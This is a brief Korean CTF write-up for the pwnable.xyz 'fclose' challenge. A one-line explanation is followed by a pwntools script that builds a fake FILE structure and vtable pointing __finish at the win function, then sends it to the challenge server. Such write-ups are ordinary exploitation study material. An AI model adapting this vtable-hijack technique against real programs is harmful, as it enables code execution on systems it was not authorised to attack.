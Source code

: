 ```yaml
---
title: "[pwnable.xyz]fclose"
date: 2020-2-26
ctf: Pwnable.xyz
layout: post
---
```


파일 구조체에 입력을 받기 때문에 값 맞춰서 잘 넣어주면 된다. fake vtable을 만들어 __finish를 win함수로 덮어주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30018)
input_val = 0x0000000000601260
win = e.symbols['win']

payload = p64(0) * 17
payload += p64(input_val) # _IO_lock_t -> NULL bytes
payload += p64(0) * 9
payload += p64(input_val + 224) # vtable
payload += p64(win) * 20
p.sendafter('>',payload)

p.interactive()
```


